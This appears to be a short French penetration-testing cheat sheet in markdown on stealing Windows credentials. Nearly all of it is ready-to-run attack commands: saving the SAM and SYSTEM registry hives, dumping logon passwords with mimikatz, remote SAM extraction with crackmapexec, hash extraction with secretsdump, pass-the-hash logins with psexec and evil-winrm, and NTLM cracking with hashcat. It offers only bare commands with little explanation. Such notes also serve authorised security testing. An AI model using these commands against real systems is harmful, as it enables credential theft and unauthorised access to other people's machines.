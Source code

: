 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Localement
### Récupération de la SAM

```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

### Mimikatz

```
mimikatz.exe "privilege::debug" " sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
```

## A distance

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs

### SAM

```
secretsdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

## Utilisation des Hash LM:NT
### Accès distant

``` shell 
psexec.py Administrator@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administrator@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
# on peut également utiliser wmiexec.py et smbexec.py ou encore evil-winrm
evil-winrm -i $TARGET_IP -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
